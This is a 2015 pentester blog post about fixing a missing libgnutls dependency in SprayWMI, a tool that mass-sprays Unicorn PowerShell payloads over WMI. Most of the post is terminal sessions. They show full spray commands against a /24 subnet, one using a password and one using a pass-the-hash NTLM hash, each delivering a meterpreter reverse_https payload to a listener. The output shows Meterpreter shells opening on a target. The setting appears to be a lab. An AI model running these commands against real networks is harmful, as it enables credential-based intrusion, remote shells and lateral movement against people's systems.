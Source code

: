 ```yaml
---
layout: post
title: Fixing wmis in SprayWMI
date: '2015-12-13T16:48:00.002-07:00'
author: Sanjiv Kawa
tags:
- SprayWMI
- Kali
- wmis
- WMI
- libgnutls.so.26
comments: true
---
```


I ran into an error with SprayWMI where wmis could not execute due issues with the system architecture, even though I am running an i386 version of Kali 2.

{% highlight css %}
root@kali:~/tools/spraywmi# ./spraywmi.py

[!] Unicorn not detected, checking out for you automatically.
Cloning into 'unicorn'...
remote: Counting objects: 104, done.
remote: Total 104 (delta 0), reused 0 (delta 0), pack-reused 104
Receiving objects: 100% (104/104), 44.89 KiB | 0 bytes/s, done.
Resolving deltas: 100% (60/60), done.
Checking connectivity... done.
[!] Looks like you have an issue with wmis - this is most likely because you are on a 64 bit platform and need a couple things first..
[!] If on Ubuntu run command to fix: dpkg --add-architecture i386 && apt-get update && apt-get install libpam0g:i386 libpopt0:i386
root@kali:~/tools/spraywmi# ./wmis
./wmis: error while loading shared libraries: libgnutls.so.26: cannot open shared object file: No such file or directory
{% endhighlight %}

I decided to try and locate libraries that contain libgnutls.

{% highlight css %}
root@kali:~/tools/spraywmi# apt-cache search libgnutls
libgnutls-deb0-28 - GNU TLS library - main runtime library
libgnutls-openssl27 - GNU TLS library - OpenSSL wrapper
libgnutls28-dbg - GNU TLS library - debugger symbols
libgnutls28-dev - GNU TLS library - development files
libgnutlsxx28 - GNU TLS library - C++ runtime library
python-gnutls - Python wrapper for the GNUTLS library
root@kali:~/tools/spraywmi#
{% endhighlight %}

Installing these libraries did not fix the issue. So I decided to find pth-wmis on my system and use this file instead of the wmis file provided with SprayWMI. The wmis file included with the SprayWMI package is used for invoking wmi queries. Therefore it should be the same as pth-wmis.

{% highlight css %}
root@kali:~/tools/spraywmi# updatedb
root@kali:~/tools/spraywmi# locate wmis
/root/tools/spraywmi/wmis
/usr/bin/pth-wmis
root@kali:~/tools/spraywmi# mv wmis wmis.orig
root@kali:~/tools/spraywmi# cp /usr/bin/pth-wmis ./wmis
root@kali:~/tools/spraywmi# ./spraywmi.py
{% endhighlight %}

This got past the initial error of wmis being unable to locate libgnutls.

{% highlight css %}
  __   __   __                       
/__` |__) |__)  /\  \ / |  |  |\/| |
.__/ |    |  \ /~~\  |  |/\|  |  | |


         Written by: David Kennedy @ TrustedSec


SprayWMI is a method for mass spraying Unicorn PowerShell injection to CIDR notations.

Flags and descriptions:

domain                 Domain you are attacking. If its local, just specify workgroup.
username               Username to authenticate on the remote Windows system.
password               Password or password hash LM:NTLM to use on the remote Windows system.
CIDR range or file     Specify a single IP, CIDR range (10.0.1.1/24) or multiple CIDRs: 10.0.1.1/24,10.0.2.1/24.
                          You can also specify a file (ex: ips.txt) that contains a single IP addresses on each line.
payload                Metasploit payload, example: windows/meterpreter/reverse_tcp
LHOST                  Reverse shell IP address.
LPORT                  Reverse shell listening port.
optional: NO           Specify no if you do not want to create a listener. This is useful if you already have a listener
                          established. If you do not specify a value, it will automatically create a listener for you.      
{% endhighlight %}

Testing SprayWMI with the recently replaced wmis file proved to be the solution for my issue. One thing to note is that you will need to escape certain characters otherwise SprayWMI will hang at `[*] Be patient, Metasploit takes a little bit to start.`

{% highlight css %}
root@kali:~/tools/spraywmi# python spraywmi.py popped spock XXXXXXXX\!X 192.168.1.0/24 windows/meterpreter/reverse_https 192.168.1.193 443

[*] Launching SprayWMI on the hosts specified.
[*] Generating shellcode through Unicorn, this could take a few seconds.
[*] Launching the listener in the background.
[*] Waiting for the listener to start first before we continue.
[*] Be patient, Metasploit takes a little bit to start.
[*] Sweeping targets for open TCP port 135 first, then moving through. Be patient.
[*] Launching WMI spray against IP: 192.168.1.86 - You should have a shell in the background. Once finished, a shell will spawn.
[*] Spraying is still happening in the background, shells should arrive as they complete.
[*] Interacting with Metasploit.
 as background job.

[*] Started HTTPS reverse handler on https://0.0.0.0:443/
[*] Starting the payload handler...
msf exploit(handler) > [*] 192.168.1.86:49223 (UUID: 269d2a51d09e214e/x86=1/windows=1/2015-12-13T23:18:44Z) Staging Native payload ...
[*] Encoded stage with x86/shikata_ga_nai
[*] Meterpreter session 1 opened (192.168.1.193:443 -> 192.168.1.86:49223) at 2015-12-13 16:18:50 -0700
{% endhighlight %}

Tested with a hash to confirm that SprayWMI is able to use wmis in its intended way.

{% highlight css %}
root@kali:~/tools/spraywmi# python spraywmi.py popped spock aad3b435b51404eeaad3b435b51404ee:6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX5 192.168.1.0/24 windows/meterpreter/reverse_https 192.168.1.193 443

[*] Launching SprayWMI on the hosts specified.
[*] Generating shellcode through Unicorn, this could take a few seconds.
[*] Launching the listener in the background.
[*] Waiting for the listener to start first before we continue.
[*] Be patient, Metasploit takes a little bit to start.
[*] Sweeping targets for open TCP port 135 first, then moving through. Be patient.
[*] Launching WMI spray against IP: 192.168.1.86 - You should have a shell in the background. Once finished, a shell will spawn.
[*] Spraying is still happening in the background, shells should arrive as they complete.
[*] Interacting with Metasploit.
 as background job.

[*] Started HTTPS reverse handler on https://0.0.0.0:443/
[*] Starting the payload handler...
msf exploit(handler) > [*] 192.168.1.86:58170 (UUID: a11ee6c27b6cc418/x86=1/windows=1/2015-12-13T23:20:52Z) Staging Native payload ...
[*] Encoded stage with x86/shikata_ga_nai
[*] Meterpreter session 1 opened (192.168.1.193:443 -> 192.168.1.86:58170) at 2015-12-13 16:20:58 -0700
{% endhighlight %}
